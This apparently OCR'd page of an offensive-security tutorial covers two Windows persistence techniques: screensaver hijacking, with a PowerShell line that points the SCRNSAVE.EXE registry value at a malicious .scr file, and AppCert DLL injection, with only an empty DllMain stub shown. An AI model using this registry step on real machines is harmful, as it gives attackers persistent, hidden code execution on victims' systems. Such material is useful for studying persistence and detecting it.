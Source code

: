 ### **Scenario of Screensaver Attacks**

- Create Malicious Executable: The attacker prepares an executable file with their malicious code and gives it a .scr extension.
- Replace or Point to Malicious Screensaver:
    - The attacker either replaces a legitimate screensaver file in the System32 directory with their malicious file or
    - Modifies the registry to point the screensaver setting to their malicious file.
- Execution on Screensaver Activation: When the system becomes idle and the screensaver is activated, the malicious code is executed.

### **Sample Proof of Concept (PoC) Code in PowerShell**

Here’s how an attacker might use PowerShell to change the registry setting to point to a malicious screensaver:

```
$MaliciousScreensaverPath = "C:\Path\To\Malicious\Screensaver.scr"

# Set the screensaver to the malicious file

Set-ItemProperty -Path 'HKCU:\Control Panel\Desktop' -Name 'SCRNSAVE.EXE' -Value $MaliciousScreensaverPath

Write-Host "Screensaver set to malicious file."
```

AppCert

AppCert DLL is loaded into any process that calls functions CreateProcess , CreateProcessAsUser, CreateProcessWithLoginW, CreateProcessWithTokenW, or WinExec. The DLL should be specifically implemented and export the function CreateProcessNotify.

**PoC**

1. Create the DLL: as we said earlier the DLL has to export a function named CreateProcessNotify.

```
BOOL APIENTRY DllMain( HMODULE hModule,

DWORD ul_reason_for_call,

LPVOID lpReserved

)

{

switch (ul_reason_for_call)

{

case DLL_PROCESS_ATTACH:

case DLL_THREAD_ATTACH:

case DLL_THREAD_DETACH:

case DLL_PROCESS_DETACH:

break;

}

return TRUE;

}
```